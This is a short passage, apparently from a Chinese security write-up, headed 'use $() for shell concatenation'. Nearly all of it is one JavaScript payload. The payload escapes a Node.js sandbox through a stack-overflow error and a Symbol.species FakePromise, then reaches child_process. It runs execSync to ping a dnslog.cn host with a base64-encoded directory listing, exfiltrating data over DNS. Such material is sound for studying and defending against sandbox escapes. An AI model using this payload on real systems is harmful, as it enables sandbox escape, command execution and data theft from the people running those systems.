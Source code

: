 [![](assets/1707953808-07af70de9a90ed7c78ce10501e5948b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208210756-13b6149c-c683-1.png)

利用$() 进行 shell 拼接

```plain
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('ping $(echo $(ls)|base64 -w)uth1r9.dnslog.cn'); }
            )
        }
    }
};
p.then()
```
